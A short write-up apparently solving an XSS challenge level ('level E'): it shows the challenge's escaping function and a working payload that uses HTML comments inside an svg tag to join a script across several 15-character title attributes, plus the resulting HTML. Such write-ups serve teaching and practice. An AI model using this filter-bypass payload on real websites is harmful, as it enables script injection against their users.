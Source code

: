 # level E

```js
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}      
```

The payload is 

```"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>```

Here we're using ```<!-- -->``` as comments unlike the last time where we used ```/*``` as a comment.

After the payload we'll get

```html
<p class="comment" title=""><svg><!--" data-comment='{"id":0}'></p>
<p class="comment" title="--><script><!--" data-comment='{"id":1}'></p>
<p class="comment" title="-->prompt(1<!--" data-comment='{"id":2}'></p>
<p class="comment" title="-->)</script>" data-comment='{"id":3}'></p>
```

Here the comments work because it's valid in the ```<svg>``` tag.